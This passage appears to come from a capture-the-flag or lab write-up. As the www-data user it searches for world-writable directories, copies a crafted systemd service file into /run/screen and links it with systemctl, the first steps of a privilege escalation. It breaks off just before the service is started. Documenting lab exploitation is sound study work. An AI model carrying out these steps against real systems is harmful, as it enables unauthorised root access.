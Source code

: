 ![evidence](./static/14-link-error.png)

And it looks like I need to find another location to store the service, When I run the `find` command:
```shell
$ www-data@kb-server:/tmp$ find / -maxdepth 2 -writable -type d -ls \
> 2>/dev/null

0 drwxrwxrwt   2 root     utmp           40 Feb 14 16:27 /run/screen
0 drwxrwxrwt   5 root     root          100 Feb 14 16:27 /run/lock
0 drwxrwxrwt   2 root     root           40 Feb 14 16:27 /dev/mqueue
0 drwxrwxrwt   2 root     root           40 Feb 14 16:27 /dev/shm
4 drwxrwxrwt   2 root     root         4096 Feb 14 16:29 /tmp
4 drwxrwxrwt   2 root     root         4096 Feb 14 16:27 /var/tmp
4 drwxrwxrwt   2 root     root         4096 Aug  6  2020 /var/crash
```
Then I choose the first one on the list for the test, when I copy the service file to the `/run/screen directoy`:
```shell
$ www-data@kb-server:/tmp$ cp root.service /run/screen/
```
And I try to link it:
```shell
$ www-data@kb-server:/tmp$ systemctl link /run/screen/root.service
Failed to link unit: File /etc/systemd/system/root.service already exists
and is a symlink to /home/heisenberg/root.service.
```
Then I fails again. When I rename the file to `testing.service`, and I run:
```shell
$ www-data@kb-server:/run/screen$ systemctl link \
> /run/screen/testing.service

Created symlink /etc/systemd/system/testing.service ->
/run/screen/testing.service.
```
Then I works.
When I try to start the service:
```shell
```